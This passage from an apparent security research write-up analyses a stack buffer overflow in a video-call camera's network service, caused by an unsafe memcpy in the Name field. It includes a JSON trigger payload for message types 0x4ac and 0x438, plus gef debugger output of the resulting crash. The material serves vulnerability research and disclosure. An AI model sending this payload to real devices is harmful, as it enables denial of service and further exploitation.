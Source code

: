 Within this function, one of the first things it does is checks for the presense of a *.* character. If this character is not present, it does a safe copy into a stack buffer. If the *.* character is present however, it does an unsafe **memcpy** where the length of the copy is the distance between the start of the *Name* string and the location of the *.* character - leading to a stack buffer overflow.

![stack_overflow_1.png](/assets/images/video_call_camera_p4/stack_overflow_1.png)

## Stack Overflow 1.5

The *0x438* handler has the exact same code pattern that triggers the overflow, so replacing *0x4ac* with *0x438* and handling an extra reference resolve will trigger the same crash.

To trigger this vulnerability, you can send the following message with type *0x4ac*:

```
-json
{
  "SessionID": "0x0001869f",
  "Name": "aaaa ...*LOTS MORE a's*... aaaa.",
  "aaaa ...*LOTS MORE a's*... aaaa." : "tnr"
}
```

Here is the *gef* output:

```
Thread 41 "NetIPManager" received signal SIGILL, Illegal instruction.
[Switching to Thread 639.736]
0xb6f626dc in __stack_chk_fail () from target:/lib/ld-musl-arm.so.1

[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0xb527017c  →  0xb6fdba04  →  0xb6fdbb40  →  0xb6fdbb50  →  0x00000001
$r1  : 0xb5276d6c  →  0xb5276d6c  →  [loop detected]
$r2  : 0x6104d351
$r3  : 0x61616161 ("aaaa"?)
$r4  : 0xb527024c  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
$r5  : 0x00b67470  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$r6  : 0x00b6759c  →  0x0000002e ("."?)
$r7  : 0x00b2b6f0  →  0x0051efd0  →  0x001846a8  →   ldr r3,  [pc,  #20]	@ 0x1846c4
$r8  : 0x0009a804  →   push {r4,  r5,  r6,  lr}
$r9  : 0x0       
$r10 : 0x0       
$r11 : 0x00b29b90  →  0x00000001
$r12 : 0x005f02c8  →  0xb6f626dc  →  <__stack_chk_fail+0> udf #0
$sp  : 0xb5270170  →  0xb527024c  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
$lr  : 0x0009aa0c  →  0xe28d002c (","?)
$pc  : 0xb6f626dc  →  <__stack_chk_fail+0> udf #0
$cpsr: [negative zero CARRY overflow interrupt fast thumb]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xb5270170│+0x0000: 0xb527024c  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"	 ← $sp
0xb5270174│+0x0004: 0x7bee0b3c
0xb5270178│+0x0008: 0x00000001
```